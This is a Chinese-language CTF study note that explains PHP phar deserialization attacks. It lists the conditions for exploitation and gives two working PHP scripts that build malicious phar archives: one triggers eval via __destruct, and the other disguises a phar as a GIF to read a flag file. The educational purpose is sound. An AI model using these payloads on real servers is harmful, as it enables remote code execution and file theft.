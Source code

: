 
## **phar序列化**
phar序列化学习
<https://www.cnblogs.com/CoLo/p/16786627.html>

phar之所以能反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`,PHP使用`phar_parse_metadata`在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。


利用条件
```
ctf题中php.ini中的phar.readonly选项，需要为Off（默认是on）

1、phar文件可被上传至服务器，上传后可被phar://协议读取
//即要求存在file_get_contents、fopen、highlight_file这种函数
include、require、include_once、require_once、highlight_file 、
show_source 、readfile 、file_get_contents 、fopen 、file

phar文件可以改名为任意后缀，只要能被伪协议读取即可。

2、要有可利用的魔术方法
//这个的话用一位大师傅的话说就是利用魔术方法作为"跳板"

3、文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤
//一般利用姿势是上传Phar文件后通过伪协议Phar来实现反序列化，伪协议Phar格式是`Phar://`这种，如果这几个特殊字符被过滤就无法实现反序列化
```
![](.topwrite/assets/image_1728379138816.png)

## **案例**
一般ctf中审计出代码中的可利用类，比如这里的test类有魔术方法。
生成phar文件，访问生成phartest.phar。
```
<?php 
class test{
    public $name="qwq";
    function __destruct()
    {
         eval($this->name);
    }
}
$a = new test();
$a->name="phpinfo();";
$phartest=new phar('phartest.phar',0);//生成时后缀名必须为phar，生成后可以改
$phartest->startBuffering();//开始缓冲 Phar 写操作
$phartest->setMetadata($a);//自定义的meta-data存入manifest
$phartest->setStub("<?php __HALT_COMPILER();?>");//设置stub，stub是一个简单的php文件。PHP通过stub识别一个文件为PHAR文件，可以利用这点绕过文件上传检测
$phartest->addFromString("test.txt","test");//添加要压缩的文件
$phartest->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```
将phartest.phar文件上传目标服务器。
再使用phar://伪协议去触发，实现反序列化后通过利用类代码执行。
```
<?php
class test{
    public $name="";
    public function __destruct()
    {
        eval($this->name);
    }
}
$phardemo = file_get_contents('phar://phartest.phar/test.txt');
echo $phardemo;
```


^
## **案例2**


```

<?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct($name)
    {
        $this->str['str'] = $name;
    }
}

class Test
{
    public $params;
    public function __construct()
    {
        $this->params['source'] = '/var/www/html/f1ag.php';		// 一定要是绝对路径
    }
}

$c = new Test;
$b = new Show($c);
$a = new C1e4r($b);
echo base64_encode(serialize($a)); //test

$phar = new Phar("phar.phar");
$phar->startBuffering();
//$phar->setStub("__HALT_COMPILER(); ?>");
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");  //设置stub，增加gif文件头
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
生成phar.phar文件后，可改后缀为phar.jpg上传服务器，再伪协议phar://upload/phar.jpg即可触发。





